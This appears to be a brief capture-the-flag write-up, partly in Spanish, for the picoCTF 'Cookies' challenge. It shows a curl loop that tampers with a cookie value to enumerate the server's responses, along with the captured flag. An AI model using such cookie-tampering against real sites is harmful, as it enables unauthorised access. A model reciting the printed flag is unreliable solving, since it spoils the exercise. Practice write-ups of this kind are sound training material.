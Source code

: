 Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)


Hints:
(None)
## Solución:


Entro a la pagian me regstro copeo el link
http://mercury.picoctf.net:21485/check

brisguz@DESKTOP-8V24E1B:~$ for i in {1..20}; do curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
brisguz@DESKTOP-8V24E1B:~$



o usando
